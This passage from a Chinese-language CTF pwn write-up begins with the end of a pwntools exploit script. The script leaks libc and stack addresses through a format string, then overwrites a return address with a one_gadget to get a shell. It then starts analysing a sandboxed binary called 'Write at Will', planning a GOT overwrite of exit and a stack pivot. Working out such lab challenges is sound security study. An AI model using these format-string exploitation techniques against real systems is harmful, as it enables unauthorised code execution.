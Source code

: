```python

pause()

payload=b'%27$p%14$p'
payload=payload.ljust(0x10, b'a')
io.send(payload)

io.recvuntil(b'0x')
libc_base = int(io.recv(12), 16) - (0x7f75042945ad - 0x7f750420a000)
io.recvuntil(b'0x')
stack_addr = int(io.recv(12), 16)

success('libc_base: ' + hex(libc_base))
success('stack_addr: ' + hex(stack_addr))

stack_ret_addr = stack_addr + (0x7fff11985b98 - 0x7fff11985bd0)
log.info('stack_ret_addr: ' + hex(stack_ret_addr))

one = [0xebc81,0xebc85,0xebc88,0xebce2,0xebd38,0xebd3f,0xebd43]
one_addr = one[0] + libc_base

# payload2 = b'aaaaaaaa-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p'
payload2 = fmtstr_payload(6, {stack_ret_addr:one_addr})
pause()
io.send(payload2)
############################################

io.interactive()
```

### 2. Write at Will

#### 2-1 分析

老样子，看一眼保护，压力小了一些（确信）

![image-20250211174135469](https://webimage.lufiende.work/1739266902514.png)

有沙箱，是白名单，`orw` 预定

![image-20250211174932938](https://webimage.lufiende.work/1739267380528.png)

看一眼代码

![image-20250211174402842](https://webimage.lufiende.work/1739267048551.png)

全在这里了，`sub_4012CF()` 的功能是读一个地址，功能就是读取地址和写地址，其中循环三次，理论上要把握机会，或者创造机会（无限读写的机会）

把握机会我是把握不住，不过程序循环会在到次数时执行 `exit` ，意味着我们可以对其动刀，把他的地址改掉，比如直接将其 `got` 地址改到循环内的读位置，就可以实现无限读，由于有沙箱，位置还是要多试几个

之后就要考虑怎么改了，泄露地址的话无法泄露栈地址，会遇到段错误（可以试一下），无法直接进行栈上 `ROP` 那么我们就要考虑另类的栈迁移
